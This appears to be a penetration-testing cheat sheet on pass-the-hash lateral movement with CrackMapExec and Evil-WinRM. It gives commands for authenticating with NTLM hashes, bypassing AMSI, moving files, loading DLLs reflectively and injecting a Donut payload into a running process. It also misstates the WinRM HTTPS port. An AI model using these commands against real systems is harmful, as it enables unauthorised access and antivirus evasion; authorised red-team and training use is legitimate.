 #### CrackMapExec (CME)
Doing a PTH with cme is quite easy. 
You enter the varying fields you want but instead of supplying a password, you supply a hash instead.
```bash
cme smb 192.168.0.0/24 -u Administrator -H [...snip...] 
```

#### Evil-WinRM
Evil-WinRM is an immensely powerful tool. It offers authentication both using credentials as well as hashes.

In order for this tool to work, even with valid credentials, the Windows Remote Management service has to be running and your user has to have valid permissions. (they usually do)

To identify if the service is running you can look for the ports `5985` (HTTP) and `5956` (HTTPS) open on a windows host. 

```bash
# Installation
gem install evil-winrm

# General Usage
Evil-WinRM -i 0.0.0.0 -u Administrator -p 'password'

# PTH Usage
Evil-WinRM -i 0.0.0.0 -u Administrator -H [... hash ...]
```

Additionally you can have Evil-WinRM preload dotnet binaries as well as powershell scripts
```bash
Evil-Winrm -i 0.0.0.0 -u user -p pass -s /opt/powershellscripts/ -e /opt/binaries/
```

In-shell menu
```powershell
# will display tools or scripts available
menu

# execute binary from preloaded path (-e) 
Invoke-Binary /opt/binaries/binary.exe 

# you can hit TAB a few times to display the powershell scripts loaded with -s
<tab>
Invoke-PowerView.ps1 
# menu -> to display functions from loaded powershell script and call on them to run them.
Get-ADDomain -Domain domain.local

# tool to try to bypass amsi
Bypass-4MSI

# upload
upload /path/to/file

# download
download C:\path\to\file

# load dll (does  [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("selected.dll")) )
Dll-Loader /path/to/dll

# list out services that could be potentially vulnerable
services

# to directly run a donut created .bin file. see the donut section in AV evasion to generate payload
Donut-Loader -process_id (get-process msedge.exe).id -donutfile /path/to/donut-payload.bin
```